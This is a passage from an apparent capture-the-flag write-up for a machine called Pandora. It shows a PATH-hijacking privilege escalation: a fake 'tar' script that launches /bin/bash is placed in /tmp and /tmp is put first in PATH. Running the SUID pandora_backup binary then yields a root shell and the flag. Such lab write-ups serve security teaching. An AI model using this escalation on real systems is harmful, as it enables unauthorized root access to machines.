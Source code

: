#### code-injectable tar
```bash
cd /tmp
echo "/bin/bash" > tar
chmod +x tar
`echo` `$PATH`
export PATH=/tmp:$PATH
```

Then run the `/usr/bin/pandora_backup` file

#### output

![[Pandora/pandora png/root.png]]

Successfully escalated to root user

#### output

![[root1.png]]

Successfully obtained the flag file with root privileges

    -------------------------END successful attack @leshack98----------------------


